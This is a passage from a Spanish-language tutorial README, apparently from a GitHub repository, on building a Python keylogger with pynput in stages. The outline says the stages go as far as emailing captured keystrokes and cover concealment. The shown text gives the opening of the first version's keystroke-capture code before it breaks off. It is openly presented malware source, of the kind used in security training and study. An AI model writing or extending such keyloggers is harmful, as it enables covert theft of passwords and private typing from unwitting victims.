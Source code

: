 
---

# PoC Tutorial — Evolución de un Keylogger en Python (`pynput`)

**Resumen**  
Este documento muestra la **evolución progresiva** de un keylogger escrito en Python, usando la librería `pynput` para capturar pulsaciones. Se parte de un prototipo mínimo y se va avanzando hacia un sistema modular, con control de apagado, y finalmente con envío periódico de logs por correo electrónico.

**Requisito específico:** Para ejecutar `pynput` en un entorno controlado es recomendable usar un **entorno virtual de Python**. Por ejemplo:

```bash

python3 -m venv venv source venv/bin/activate

```

De esta forma aíslas dependencias y evitas conflictos con librerías del sistema.

---

## Índice

1. Versión 1 — Script mínimo (prototipo)
    
2. Versión 2 — Refactorización en clase + `main.py`
    
3. Versión 3 — Shutdown ordenado con señal SIGINT
    
4. Versión 4 — Envío de logs por email (PoC completo)
    
5. Ejecución y salida de ejemplo
    
6. Consideraciones de seguridad y ocultación
    
7. Posibles mejoras futuras
    

---

## Créditos

El script presentado en este repositorio ha sido extraído del material proporcionado por [s4vitar](https://github.com/s4vitar).

---

## 1) Versión 1 — Script mínimo (prototipo)

**Archivo:** `keylogger_v1.py`

```python
#!/usr/bin/env python3
import pynput.keyboard
import threading

log = ""

def pressed_key(key):
    global log
    try:
        log += str(key.char)
    except AttributeError:
        special_keys = {key.space: " ", key.backspace: " Backspace ", key.enter: " Enter ", key.shift: " Shift ", key.ctrl: " Ctrl ", key.alt: " Alt "}
```